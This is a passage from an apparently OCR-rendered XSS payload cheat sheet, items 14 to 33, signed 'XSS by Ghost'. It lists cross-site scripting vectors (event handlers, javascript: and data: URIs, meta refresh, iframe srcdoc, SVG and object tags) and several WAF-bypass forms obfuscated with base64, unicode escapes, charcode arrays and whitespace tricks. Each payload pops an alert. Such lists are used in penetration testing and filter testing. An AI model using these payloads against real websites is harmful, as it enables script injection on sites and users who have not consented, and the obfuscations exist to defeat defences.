 ```html
<img src=x onerror="eval(unescape('%61%6c%65%72%74%28%27XSS%20by%20Ghost%27%29'))">

📌 14. Attribute Context with Mixed Case
<INPUT TYPE="TEXT" VALUE="0" ONFOCUS="EvAl(AtOb('YWxlcnQoJ1hTUyBieSBHcm9rJyk='))" AUTOFOCUS>

📌 15. HTML Context with Whitespace Obfuscation
<img src=x on\x0aerror="alert('XSS by Ghost')">

📌 16. HTML Context with Nested Tags
<b><i onmouseover=alert('XSS by Ghost')>Hover me</i></b>

📌 17. Attribute Context with Base64 Encoding
<input type=text onfocus=eval(atob('YWxlcnQoJ1hTUyBieSBHcm9rJyk=')) autofocus>

📌 18. JavaScript Context with Array Obfuscation
window[['al','ert'].join('')]('XSS by Ghost')

📌 19. URL Context with JavaScript URI
<a href="javascript:window['al'+'ert']('XSS by Ghost')">Click me</a>

📌 20. WAF Bypass with Encoded Event Handler
<div o\u006eclick="a\u006cert('XSS by Ghost')">Click me</div>

📌 21. HTML Context with Meta Tag Redirect
<meta http-equiv="refresh" content="0;url=javascript:alert('XSS by Ghost')">

📌 22. Attribute Context with Encoded Payload
<img src=x on erro\u0072=alert('XSS by Ghost')>

📌 23. JavaScript Context with String Concatenation
window['al'+'ert']('XSS by Ghost')

📌 24. HTML Context with Form Action
<form action="javascript:alert('XSS by Ghost')"><input type=submit>

📌 25. WAF Bypass with Nested Encoding
<img src=x onerror=eval(unescape(atob('JTYxJTY2JTY1JTIwJTI4JTI3WFNTJTIwYnklMjBHcm9rJTI3JTI5')))>

📌 26. SVG Context with Encoded Script
<svg><script>eval(atob('YWxlcnQoJ1hTUyBieSBHcm9rJyk='))</script></svg>

📌 27. URL Context with Data URI
<a href="data:,alert('XSS by Ghost')">Click me</a>

📌 28. HTML Context with Iframe Srcdoc
<iframe srcdoc="<script>alert('XSS by Ghost')</script>"></iframe>

📌 29. Attribute Context with Mixed Encoding
<input onfocus=eval("\x61\x6c\x65\x72\x74('XSS by Ghost')") autofocus>

📌 30. JavaScript Context with CharCode Obfuscation
Function(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,32,98,121,32,71,114,111,107,39,41))()

📌 31. HTML Context with Object Tag
<object data="javascript:alert('XSS by Ghost')"></object>

📌 32. WAF Bypass with Unicode and Whitespace
<img src=x o\u006e\x0derror="a\u006cert('XSS by Ghost')">

📌 33. HTML Context with Video Tag
<video><source onerror="alert('XSS by Ghost')"></video>

```